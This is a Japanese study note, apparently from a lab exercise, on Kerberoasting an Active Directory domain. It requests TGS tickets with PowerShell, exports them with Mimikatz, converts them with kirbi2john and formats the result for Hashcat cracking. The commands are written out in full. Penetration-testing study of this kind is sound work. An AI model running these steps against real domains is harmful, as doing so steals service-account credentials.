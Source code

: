 **PowerShellを使用して、アカウントのTGSチケットを要求し、それらをメモリにロードする**

特定のユーザーのチケットを取得する
```powershell-session
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```
コマンド説明
- `Add-Type` は、PowerShellセッションに.NETのクラスを読み込むためのコマンド
- `AssemblyName`  : 使いたいクラスを含むアセンブリ（＝.NETの機能が詰まったライブラリ）を指定する
- `System.IdentityModel` : セキュリティトークン関連のクラスを提供してくれる名前空間
- `New-Object`  : 読み込んだクラスを使って新しいオブジェクト（今回はKerberosトークン）を作成している
- `System.IdentityModel.Tokens.KerberosRequestorSecurityToken` クラスに、対象のSPN（Service Principal Name）を渡すことで、KerberosのTGSチケット（TGS-REQ）を要求できる
	- このチケットは現在のログオンセッションの権限で取得される

全てのユーザーのチケットを取得する
```powershell
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

**`Mimikatz`を使用してメモリ上から抽出する**
/export オプションを使うことで、メモリ上の Kerberos チケットを .kirbi ファイルとして保存できる
```powershell
mimikatz # base64 /out:true
mimikatz # kerberos::list /export
```

ここで出力されたbase64 blobを攻撃者のlinuxにコピーして、下に進む

**Base64 blobのクラック準備**
出力がカラム折り返しされており、改行や空白が含まれているため、改行やスペースを削除して1行に整形する必要がする
```sh
$ echo "<base64ブロブ>" | tr -d \\n
```

この整形された 1 行の出力をファイルに保存し、base64 コマンドで .kirbi ファイルに変換する
```sh
$ cat encoded_file | base64 -d > sqldev.kirbi
```

**kirbi2john.py を使ったチケット抽出**
```sh
$ python2.7 kirbi2john.py sqldev.kirbi
```

 **Hashcat 用に crack_file を整形**
 Hashcat で処理できる形式に変換されたハッシュファイルが sqldev_tgs_hashcat として作成される
```sh
 $ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
